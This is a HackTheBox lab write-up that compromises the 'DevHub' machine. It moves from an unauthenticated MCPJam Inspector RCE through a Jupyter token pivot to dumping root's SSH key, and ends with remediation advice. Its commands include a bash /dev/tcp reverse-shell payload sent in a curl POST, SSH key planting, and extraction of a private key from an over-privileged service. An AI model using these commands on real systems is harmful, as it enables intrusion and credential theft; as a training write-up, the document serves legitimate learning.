










# HackTheBox — DevHub

> **Full compromise: User + Root**
> **Author:** Darina Askarova · **HTB handle:** Dragon
> **Attacker IP:** `10.10.14.30` (tun0)
> **Engagement:** Authorized HackTheBox lab exercise — for training and educational purposes.

> ⚠️ **Note:** Flag values and recovered secrets (SSH keys, tokens, API keys) are **redacted**
> throughout this report and in all screenshots, in line with HackTheBox's policy against
> publishing answers for machines.

| | |
|---|---|
| **Machine** | DevHub (HackTheBox) |
| **Target IP** | `10.129.245.216` |
| **Hostname** | `devhub.htb` |
| **Operating system** | Ubuntu 22.04.5 LTS (Linux 5.15) |
| **Difficulty** | Medium |
| **Exposed services** | 22/SSH, 80/HTTP, 6274/MCPJam Inspector (+ internal 8888 Jupyter, 5000 opsmcp) |
| **Attacker host** | Arch Linux, VPN (tun0) `10.10.14.30` |
| **Foothold account** | `mcp-dev` (uid 1001) |
| **Pivot account** | `analyst` |
| **Key vulnerability** | CVE-2026-23744 — MCPJam Inspector unauthenticated RCE |
| **Outcome** | Full compromise — user + root |

---

## 1. Executive summary

DevHub is a Linux (Ubuntu 22.04) machine on HackTheBox. It was fully compromised, from initial
network access through to root. The entry point was an internal developer tool —
**MCPJam Inspector v1.4.2** — exposed on TCP port 6274 and vulnerable to **CVE-2026-23744**, an
unauthenticated remote code execution flaw. From the resulting foothold, exposed credentials and
an over-privileged internal service were chained to reach root.

**The attack path, at a glance:**

1. Reconnaissance identified SSH (22), HTTP (80) and MCPJam Inspector (6274). The web app
   redirected to `devhub.htb`.
2. **CVE-2026-23744** was exploited against MCPJam Inspector to obtain a reverse shell as the
   `mcp-dev` user.
3. Local enumeration revealed the `analyst` user's Jupyter Lab token exposed in the process list,
   plus a root-owned `opsmcp` service on port 5000.
4. An SSH key was planted for `mcp-dev` and an SSH tunnel opened to the `analyst`-owned Jupyter
   Lab (`127.0.0.1:8888`), giving code execution as `analyst` and the user flag.
5. The root-owned `opsmcp` service's admin function — unlocked with a hardcoded API key — dumped
   root's private SSH key, which was used to log in as root and capture the root flag.

---

## 2. Reconnaissance

The target was added to `/etc/hosts` as `devhub.htb` because the web server (port 80) redirects
to that virtual host and will not resolve otherwise:

```bash
echo '10.129.245.216  devhub.htb' | sudo tee -a /etc/hosts
```

A service scan of the target returned three open ports:

```bash
nmap -sC -sV 10.129.245.216
```

```
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH (Ubuntu)
80/tcp   open  http      -> redirects to http://devhub.htb/
6274/tcp open  http      MCPJam Inspector (Node.js)
```

Port 6274 hosts **MCPJam Inspector** — a debugging tool for Model Context Protocol (MCP) servers.
The running version was identified as **v1.4.2**, which is vulnerable to **CVE-2026-23744**.


*Figure 1 — Connectivity to the target confirmed (ICMP) and an Ncat listener started on port 4444 to catch the reverse shell.*

---

## 3. Initial foothold — CVE-2026-23744 (MCPJam Inspector RCE)

### 3.1 The vulnerability

MCPJam Inspector's job is to launch MCP servers, so it accepts a "server configuration" that
specifies a command to run. In versions **≤ 1.4.2** the service binds to `0.0.0.0`
(network-reachable, not localhost) and the `/api/mcp/connect` endpoint takes the `command` and
`args` fields and executes them with **no authentication and no validation**. An attacker simply
declares that the "server" command is a reverse shell. The flaw is patched in **v1.4.3**.

### 3.2 Exploitation

A listener was started on the attacker host, and a public proof-of-concept for CVE-2026-23744 was
run against the target (the exploit sends a bash reverse-shell payload to `/api/mcp/connect`):

```bash
# Terminal 1 - listener
ncat -lvn 4444

# Terminal 2 - exploit (attacker IP as LHOST)
python3 script.py devhub.htb -l 10.10.14.30 --lport 4444
```


*Figure 2 — The CVE-2026-23744 proof-of-concept executed against MCPJam Inspector on port 6274; the payload is delivered to `/api/mcp/connect` and reported sent.*

The equivalent request without the PoC script is a single unauthenticated POST — this is the core
of the vulnerability:

```bash
curl -X POST http://devhub.htb:6274/api/mcp/connect \
  -H 'Content-Type: application/json' \
  -d '{"serverConfig":{"command":"/bin/bash","args":["-c",
       "bash -i >& /dev/tcp/10.10.14.30/4444 0>&1"],"env":{}},
       "serverId":"pwn"}'
```

The HTTP response returns a `500` / MCP error `-32001` "Request timed out" — this is expected
"blind" behaviour: the spawned reverse shell never completes the MCP protocol handshake, so the
service reports a timeout even though the command executed. The shell itself lands on the
listener, giving code execution as `mcp-dev`.


*Figure 3 — Reverse shell received: the target (`10.129.245.216`) connects back to the listener, yielding a shell as `mcp-dev@devhub`.*

---

## 4. Post-exploitation enumeration

With a shell as `mcp-dev`, local enumeration exposed both the pivot to the next user and the route
to root. Listing the running processes revealed the `analyst` user running Jupyter Lab with its
access token passed directly on the command line, and root running an `opsmcp` service:

```bash
id            # uid=1001(mcp-dev) gid=1001(mcp-dev)
ls /home      # analyst  mcp-dev
ps aux | grep -i jupyter
```


*Figure 4 — Enumeration as `mcp-dev`. `ps aux` exposes the analyst Jupyter Lab token (redacted) on the command line and shows root running `/opt/opsmcp/server.py`.*

Two critical facts fall out of the process list: the Jupyter Lab access token (effectively
`analyst`'s login credential), and a root-owned `/opt/opsmcp/server.py` service. Listing listening
sockets confirmed both internal services — Jupyter on 8888 and opsmcp on 5000 — bound to localhost
only:

```bash
ss -tulpn
```


*Figure 5 — `ss -tulpn` confirms the internal, localhost-only services: `127.0.0.1:8888` (Jupyter / analyst) and `127.0.0.1:5000` (opsmcp / root), alongside the public 6274, 80 and 22.*

---

## 5. Lateral movement — analyst (user flag)

The `analyst` user holds the user flag, and `mcp-dev` cannot read it directly
(`cat /home/analyst/user.txt` returns *Permission denied*). Because Jupyter runs as `analyst`, a
terminal opened inside Jupyter executes as `analyst`. Jupyter listens only on the target's
localhost, so it was reached with an SSH tunnel. As `mcp-dev` has no password, an SSH key was
planted first.

On the attacker host, a key pair was generated; its public half was appended to `mcp-dev`'s
`authorized_keys` on the target:

```bash
# Attacker
ssh-keygen -t ed25519 -f ~/devhub_key -N ""

# On target (mcp-dev shell)
mkdir -p ~/.ssh && chmod 700 ~/.ssh
echo 'ssh-ed25519 AAAA...attacker_pubkey...' >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

With key access in place, an SSH session was opened that also forwards the target's Jupyter port
to the attacker's localhost:

```bash
ssh -i ~/devhub_key -L 8888:127.0.0.1:8888 mcp-dev@devhub.htb
```


*Figure 6 — SSH key generated for `mcp-dev`, then an SSH session established with a local port-forward (`-L 8888:127.0.0.1:8888`) exposing the analyst Jupyter Lab to the attacker host.*

Browsing to the forwarded Jupyter Lab and authenticating with the recovered token logs straight in
as `analyst`. Opening **New → Terminal** provides a shell as `analyst`, from which the user flag is
read:

```bash
# attacker browser -> http://127.0.0.1:8888/?token=<REDACTED>
cat ~/user.txt   # user flag (analyst)
```


*Figure 7 — Jupyter Lab opened as `analyst`; a terminal runs as `analyst` and the user flag is read (value redacted).*

```
USER FLAG:  [REDACTED]
```

---

## 6. Privilege escalation — root (root flag)

The final step abuses the root-owned `opsmcp` service (`127.0.0.1:5000`). Its source,
`/opt/opsmcp/server.py`, contains a **hardcoded API key** and an `ops._admin_dump` tool that —
when authenticated and confirmed — reads and returns `/root/.ssh/id_rsa`. Because the service runs
as root, it hands over root's private key. The endpoint is reachable directly from the on-box
`mcp-dev` shell:

```bash
curl -s -X POST 'http://localhost:5000/tools/call' \
  -H 'X-API-Key: opsmcp_secret_key_[REDACTED]' \
  -H 'Content-Type: application/json' \
  -d '{"name":"ops._admin_dump",
       "arguments":{"confirm":true,"target":"ssh_keys"}}'
```


*Figure 8 — The opsmcp admin function returns an "emergency recovery key dump" containing root's private SSH key (API key and key material redacted).*

The key is returned as JSON with escaped newlines, so `python3` was used to extract the key block
and restore real line breaks into a private-key file, which was then given correct permissions:

```bash
curl -s -X POST 'http://localhost:5000/tools/call' \
  -H 'X-API-Key: opsmcp_secret_key_[REDACTED]' \
  -H 'Content-Type: application/json' \
  -d '{"name":"ops._admin_dump","arguments":{"confirm":true,"target":"ssh_keys"}}' \
  | python3 -c 'import sys,re;d=sys.stdin.read();
      m=re.search(r"-----BEGIN [A-Z ]*PRIVATE KEY-----.*?-----END [A-Z ]*PRIVATE KEY-----",d,re.S);
      print(m.group().replace("\\n","\n"))' > /tmp/rk
chmod 600 /tmp/rk
```


*Figure 9 — Root's private key extracted from the JSON response and written to `/tmp/rk` as a valid OpenSSH private key (API key and key material redacted).*

With root's private key in hand, an SSH session was opened to the box as root — and the root flag
captured:

```bash
ssh -i /tmp/rk root@localhost
cat /root/root.txt
```


*Figure 10 — Root access achieved using the leaked private key; SSH login as `root@devhub` and the root flag read (value redacted).*

```
ROOT FLAG:  [REDACTED]
```

---

## 7. Findings & remediation

The compromise chained several weaknesses. Fixing any one of them would have broken the path to
root; fixing the two rated **Critical** is the priority.

| # | Finding | Severity | Remediation |
|---|---------|----------|-------------|
| 1 | **CVE-2026-23744** — MCPJam Inspector binds to `0.0.0.0` and its `/api/mcp/connect` endpoint spawns an attacker-supplied command with no authentication or validation (unauthenticated RCE). | 🔴 **Critical** | Upgrade to MCPJam Inspector ≥ 1.4.3; bind the service to `127.0.0.1`; require authentication; restrict port 6274 at the network layer. |
| 2 | Jupyter Lab access token passed on the command line, exposing it in the process list to any local user (`ps aux`). | 🟠 **High** | Supply tokens via a config file or environment with restricted permissions; use a hashed password; never pass secrets as CLI arguments. |
| 3 | Hardcoded API key stored in plaintext in `/opt/opsmcp/server.py`. | 🟠 **High** | Move secrets to a vault or environment variable; rotate the key; restrict read access to the source file. |
| 4 | `opsmcp` exposes an `ops._admin_dump` function that returns `/root/.ssh/id_rsa` (root's private SSH key) to any caller holding the API key. | 🔴 **Critical** | Remove the key-dump capability; never return private keys over an API; enforce strict authorization and confirmation controls. |
| 5 | The `opsmcp` service runs as root. | 🟠 **High** | Run the service under a dedicated low-privilege account; drop Linux capabilities; apply least privilege. |

---

## 8. Skills demonstrated

- **Service enumeration & CVE research** — identifying an uncommon service (MCPJam Inspector) and matching it to a known CVE.
- **Web/API exploitation** — unauthenticated RCE via a JSON API endpoint (`/api/mcp/connect`).
- **Local enumeration** — recovering secrets from the process list and listening sockets.
- **Pivoting & tunnelling** — SSH key planting and local port-forwarding to reach localhost-only services.
- **Privilege escalation** — abusing an over-privileged root service to exfiltrate credentials.
- **Reporting** — clear attack narrative, evidence, and mapped remediation.

---

<sub>Conducted in an authorized HackTheBox lab environment for educational purposes. Flags and secrets redacted per HackTheBox policy.</sub>
